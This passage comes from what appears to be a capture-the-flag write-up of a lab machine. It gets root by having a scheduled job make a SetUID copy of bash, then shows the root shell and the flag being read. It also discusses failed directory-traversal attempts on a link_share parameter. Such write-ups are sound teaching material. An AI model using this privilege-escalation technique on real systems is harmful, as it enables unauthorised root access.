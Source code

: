 This will execute the `system` command to create a copy of `bash` owned by root that is SetUID / SetGID. I’ll wait for the next minute, and then it’s there:

```

albert@alert:/opt/website-monitor$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1183448 Mar 19 21:22 /tmp/0xdf

```

I’ll run that with `-p` to not drop privs, and get a root shell:

```

albert@alert:/opt/website-monitor$ /tmp/0xdf -p
0xdf-5.0# id
uid=1000(albert) gid=1000(albert) euid=0(root) egid=0(root) groups=0(root),1000(albert),1001(management)

```

From here I can cleanup and read `root.txt`:

```

0xdf-5.0# rm /tmp/0xdf 
0xdf-5.0# cat root.txt
731cf7f7************************

```

## Beyond Root

I’m going to look at three things that I have exploited in the past and see why they didn’t work here.

### visualizer.php link\_share Parameter

#### Pre-root Thoughts

When sharing a link, it generates a page with a URL like `/visualizer.php?link_share=67dbf23435b1b3.01780025.md`. Right away, I suspect that it is saving my uploaded markdown with a random name, and then the if the `link_share` parameter is set when visiting `/visualizer.php`, it tries to read that file.

When I upload markdown, it just goes to `/visualizer.php`. I’m guessing it’s not saved to disk at this point, but just used to make the page. That would make the most sense as far as why it doesn’t just go to the share link to begin with. Still, it could just be weird design. Either way, once I click the “Share Markdown” link, I’m much more confident it exists on disk, probably in the `/uploads` directory identified while brute forcing.

As it is going to a folder and trying to read a file, I want to see if I can read files outside of that directory with a directory traversal, but I wasn’t able to.

One last thing to consider - based on the file extension, it seems likely that the file is being saved as markdown. I think if I were creating this site, I would go ahead and convert it to HTML on save, rather than doing so on each view. And it’s possible that the developer did that and then just used the wrong extension. If it is doing the conversion to HTML on read, that could cause some issues trying to read non-markdown files. That said, I doubt it, as plain text is just markdown, so something like `/etc/hostname` should work just fine.
